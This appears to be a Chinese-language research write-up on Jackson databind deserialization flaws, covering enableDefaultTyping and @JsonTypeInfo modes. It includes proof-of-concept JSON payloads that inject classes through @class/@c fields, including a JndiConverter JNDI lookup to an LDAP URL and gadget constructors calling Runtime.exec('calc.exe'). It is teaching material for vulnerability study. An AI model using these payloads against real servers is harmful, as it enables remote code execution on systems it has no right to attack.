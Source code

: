 # Jackson漏洞原理与检测、利用方式研究
# Jackson简介
前面分析了两个关于 fastjson 的漏洞，这篇文章再提一嘴 Jackson。
实际上这两个JSON处理类库的多数漏洞是可以通用的，原理也就是通过反射实例化对象，在调用构造函数或调用get/set方法时触发敏感操作。Jackson框架被发现存在一个反序列化代码执行漏洞。该漏洞存在于Jackson框架下的enableDefaultTyping方法，通过该漏洞，攻击者可以远程在服务器主机上越权执行任意代码，从而取得该网站服务器的控制权。
满足下面三个条件是可以导致反序列化漏洞：
* 调用了ObjectMapper.enableDefaultTyping()函数，参数为四个类型；
* 反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解；
* 反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解；
## enableDefaultTyping触发反序列化
```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue(jsonString, A.class);
```
DefaultTyping的几种模式：
```xml
/**
    * This value means that only properties that have
    * {@link java.lang.Object} as declared type (including
    * generic types without explicit type) will use default
    * typing.
*/
JAVA_LANG_OBJECT: 只有Object类型属性，才能反序列化为任何实例。
/**
    * Value that means that default typing will be used for
    * properties with declared type of {@link java.lang.Object}
    * or an abstract type (abstract class or interface).
    * Note that this does <b>not</b> include array types.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
OBJECT_AND_NON_CONCRETE: 包含上述 JAVA_LANG_OBJECT 的特性，并且对于接口类型定义的属性，可以反序列化为任意实现类实例，不指定的时候默认使用该类型。
/**
    * Value that means that default typing will be used for
    * all types covered by {@link #OBJECT_AND_NON_CONCRETE}
    * plus all array types for them.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
 NON_CONCRETE_AND_ARRAYS: 包含上述 JAVA_LANG_OBJECT 和 OBJECT_AND_NON_CONCRETE 的特性，增加了数组支持
/**
    * Value that means that default typing will be used for
    * all non-final types, with exception of small number of
    * "natural" types (String, Boolean, Integer, Double), which
    * can be correctly inferred from JSON; as well as for
    * all arrays of non-final types.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
 NON_FINAL: 包含上述所有特性，除了final定义的属性不能反序列化，其他都可以
```
## JsonTypeInfo触发反序列化
在将多态类型进行JSON序列化后，Jackson无法在反序列化期间找出正确的类型，Jackson里使用@JsonTypeInfo注解处理多态类型的序列化和反序列化。此注解用于序列化有关多态实例的实际类的信息，以便Jackson可以知道要反序列化的子类型。有两种方式添加注解：

（1）@JsonTypeInfo注解加到父类定义上
```java
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
public class BaseClass {
}
```
（2）@JsonTypeInfo注解加到包含父类的成员变量上面
```java
//@JsonTypeInfo注解不仅可以加在父类的定义上面，也可以加到包含父类的成员变量上面
public class Test {
  @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
  private List<BaseClass> bean;
}
```
|  配置   | 说明  |
|  ----  | ----  |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)  | 字如其名，和没设置一样. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)  | Json多了@class字段，用于标明相关属性的包和类名。使用 @JsonTypeInfo(use = Id.CLASS) 注解的反序列化能利用，但必须和定义类型一致. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS) | Json多了@c字段，用于标明相关属性的包和类名。使用 @JsonTypeInfo(use = Id.MINIMAL_CLASS) 注解的反序列化能利用，但必须和定义类型一致. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NAME) | Json多了@type字段，用于标明相关属性的类名(无包) |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM) | 用户自定义，需要手写解析器|
||

### **JsonTypeInfo.Id.CLASS利用**
```java
class A2 {
    private int i = 1;
    @JsonTypeInfo(use = Id.CLASS)
    private Object object;
    @JsonTypeInfo(use = Id.CLASS)
    private InterfaceA aa;
}
// 存在Object属性且注解为Id.CLASS
ObjectMapper mapper = new ObjectMapper();
 json = "{\"i\":1,\"object\":{\"@class\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}}";
a = mapper.readValue(json, A2.class);
System.out.println(a.getAa().getClass().getName());

// 存在继承父类或接口InterfaceA的属性且注解为Id.CLASS
json = "{\"i\":1,\"aa\":{\"@class\":\"com.jackson.test.JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A2.class);

class AA implements InterfaceA {
    int xx;
    public AA() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
### **JsonTypeInfo.Id.MINIMAL_CLASS利用**
```java
class A3 {
    private int i = 1;
    @JsonTypeInfo(use = Id.MINIMAL_CLASS)
    private Object object;
    @JsonTypeInfo(use = Id.MINIMAL_CLASS)
    private InterfaceA aa;
}
// 存在Object属性且注解为Id.CLASS
ObjectMapper mapper = new ObjectMapper();
 json = "{\"i\":1,\"object\":{\"@c\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}}";
a = mapper.readValue(json, A3.class);
System.out.println(a.getAa().getClass().getName());

// 存在继承父类或接口InterfaceA的属性且注解为Id.CLASS
json = "{\"i\":1,\"aa\":{\"@c\":\"com.jackson.test.JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A3.class);

class AA implements InterfaceA {
    int xx;
    public AA() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
### **`JsonTypeInfo.Id.NAME`**
```java
 class A4 {
    private int i = 1;
    @JsonTypeInfo(use = Id.NAME)
    private Object object;
    @JsonTypeInfo(use = Id.NAME)
    private AA subaa;
    @JsonTypeInfo(use = Id.NAME)
    private InterfaceA aa;
 }
//反序列化失败，并不能反序列化任意类
json = "{\"i\":1,\"object\":{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"},\"aa\":null}";
a = mapper.readValue(json, A4.class);
//反序列化失败，并不能反序列化继承InterfaceA的子类AA
json = "{\"i\":1,\"aa\":{\"@type\":\"JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A4.class);
//反序列化成功，AA
json = "{\"i\":1,\"subaa\":{\"@type\":\"JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A4.class);
```
### **JsonTypeInfo.Id.CUSTOM**
```java
class A5 {
    private int i = 1;
    @JsonTypeInfo(use = Id.CUSTOM)
    private Object object;
    private InterfaceA aa;
}
// 直接反序列化失败，需要自定义转换器
String json = "{\"i\":1,\"object\":{\"@type\":\"JsonTypeInfoTest$B\",\"i\":2},\"aa\":null}";
mapper.readValue(json,A5.class);
```
# 参考
https://blog.csdn.net/qq_34101364/article/details/111996656

http://pirogue.org/2018/01/12/jackson-databind-rce/

https://b1ue.cn/archives/189.html

http://blog.nsfocus.net/jackson-framework-java-vulnerability-analysis/

https://xz.aliyun.com/t/8012

https://xz.aliyun.com/t/9331